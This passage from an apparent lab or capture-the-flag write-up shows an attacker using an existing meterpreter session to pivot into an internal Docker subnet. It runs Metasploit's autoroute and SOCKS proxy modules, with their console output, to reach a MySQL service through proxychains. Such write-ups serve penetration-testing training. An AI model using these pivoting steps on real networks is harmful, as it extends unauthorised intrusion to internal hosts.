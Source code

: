 So it seems the `mysql` instance where our script connects to is on `172.19.0.2`. We now have everything we need to know to connect to the instance ourself. To make it more comfortable to do so we perform some basic pivoting through metasploit by running the `autoroute` and `socks` module via our `meterpreter`. This will allows us to connect to the `mysql` service through our kali machine by using `proxychains`
```bash
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > search autoroute

Matching Modules
================

   #  Name                         Disclosure Date  Rank    Check  Description
   -  ----                         ---------------  ----    -----  -----------
   0  post/multi/manage/autoroute                   normal  No     Multi Manage Network Route via Meterpreter Session


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/autoroute

msf6 exploit(multi/handler) > use 0
msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 172.19.0.3
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.19.0.0/255.255.0.0 from host's routing table.
[*] Post module execution completed
msf6 post(multi/manage/autoroute) > search socks

Matching Modules
================

   #  Name                                     Disclosure Date  Rank    Check  Description
   -  ----                                     ---------------  ----    -----  -----------
   0  auxiliary/server/socks_proxy                              normal  No     SOCKS Proxy Server
   1  auxiliary/server/socks_unc                                normal  No     SOCKS Proxy UNC Path Redirection
   2  auxiliary/scanner/http/sockso_traversal  2012-03-14       normal  No     Sockso Music Host Server 1.5 Directory Traversal


Interact with a module by name or index. For example info 2, use 2 or use auxiliary/scanner/http/sockso_traversal

msf6 post(multi/manage/autoroute) > use 0
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.
msf6 auxiliary(server/socks_proxy) >
```
